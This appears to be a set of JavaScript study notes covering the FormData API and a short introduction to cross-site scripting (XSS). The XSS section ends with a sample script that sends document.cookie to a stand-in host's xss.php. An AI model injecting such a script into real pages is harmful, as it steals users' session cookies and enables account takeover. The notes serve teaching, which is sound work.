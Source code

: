 ### FormData API

The `FormData()` constructor creates a new `FormData` object. => [reference](https://javascript.info/formdata)

- The `FormData` interface provides a way to easily construct a set of `key/value pairs` representing form fields and their values, which can then be easily sent using the `fetch()` or `XMLHttpRequest.send()` method.
- It uses the same format a form would use if the encoding type were set to `"multipart/form-data"`.
- It's a great solution when we have bunch of inputs
  - inputs must have `name` attribute

```js
// it returns arrays of arrays
const dataArr = [...new FormData(formElement)];
// result : [[key1,value1],[key2,value2],[key3,value3],[key4,value4],...]

// get form-field
const email = formData.get('email');
// get form-entries
const formEntries = [...formData.entries()];

// now we want to convert it to an object
const data = Object.fromEntries(dataArr); // convert arrays into key-value-pairs Object
// result :
// {
//   key1 : value1,
//   key2 : value2,
//   key3 : value3,
//   key4 : value4,
// }
```

- the `FormData` object will be populated with the form's current keys/values using the name property of each element for the keys and their submitted value for the values. It will also encode file input content.

---

## CROSS-SITE SCRIPTING (XSS) ATTACKS

XSS involves an attacker placing malicious code into a site. Websites often feature content created by many different people.

XSS can give the attacker access to information in:

- The DOM (including form data)
- That website's cookies
- Session tokens: information that identifies you from other users when you log into a site
- Example:

  ```html
  <script>
    var adr = 'http : //example.com/xss .php?cookie=' + escape(document.cookie);
  </script>
  ```
